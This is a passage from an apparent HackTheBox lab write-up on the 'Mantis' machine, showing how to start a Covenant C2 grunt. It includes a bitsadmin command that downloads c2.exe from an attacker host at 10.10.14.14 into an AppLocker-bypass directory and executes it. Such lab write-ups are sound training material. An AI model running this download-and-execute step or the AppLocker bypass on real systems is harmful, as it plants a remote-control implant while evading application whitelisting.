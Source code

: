 ![c2-start](/images/hackthebox-writeups/mantis/covenant-start.png)

### Loading a Covenant Grunt

Firstly, create a new grunt and host it on a listner.

![c2.exe](/images/hackthebox-writeups/mantis/listener-1.png)

Now download it to an AppLocker Bypass directory like `C:\Windows\System32\spool\drivers\color` and execute it.

{% highlight powershell linenos %}
bitsadmin /transfer downloadjob /download /priority normal http://10.10.14.14/c2.exe C:\Windows\System32\spool\drivers\color\c2.exe
cd C:\Windows\System32\spool\drivers\color
c2.exe
{% endhighlight %}
